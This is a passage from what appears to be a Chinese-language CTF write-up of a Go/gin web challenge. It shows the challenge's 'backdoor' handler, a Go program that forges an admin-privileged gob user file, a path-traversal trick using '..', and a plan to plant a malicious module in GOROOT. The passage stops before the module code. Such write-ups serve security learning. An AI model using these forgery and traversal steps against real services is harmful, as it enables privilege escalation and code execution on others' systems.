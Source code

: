 ```go
				c.HTML(200, "backdoor.html", gin.H{"message": string(eval)})
				return
			} else {
				c.HTML(200, "backdoor.html", gin.H{"message": "low power"})
				return
			}
		} else {
			c.HTML(500, "backdoor.html", gin.H{"message": "no such user gob"})
			return
		}
	})

	r.Run(":80")
}
```

首先用 `encoding/gob` 包序列化出来一个 Power 为 `admin` 的 user.gob 文件

```go
package main

import (
	"encoding/gob"
	"os"
)

type User struct {
	Name  string
	Path  string
	Power string
}

func main() {
	userDir := "/tmp/9b092f66e8abae6ee9fad54bb7b23b59/"
	gobFile, _ := os.Create("user.gob")
	user := User{Name: "ctfer", Path: userDir, Power: "admin"}
	encoder := gob.NewEncoder(gobFile)
	encoder.Encode(user)
}
```

`filepath.Clean(userUploadDir + c.Query("path"))` 这句可以用 `..` 进行目录穿越, 让生成的 user.gob 解压到 userDir

然后题目开启了 module 模式, 必须强制使用 go.mod (? Go 语言不太懂)

![image-20230218165745660](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302181658558.png)

GOPATH 不清楚, 但是能爆出来 GOROOT 的路径为 `/usr/local/go/src`![image-20230218165909498](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302181659568.png)

所以尝试把恶意模块写到 GOROOT 里面

```
fmtx
├── fmtx.go
└── go.mod
```
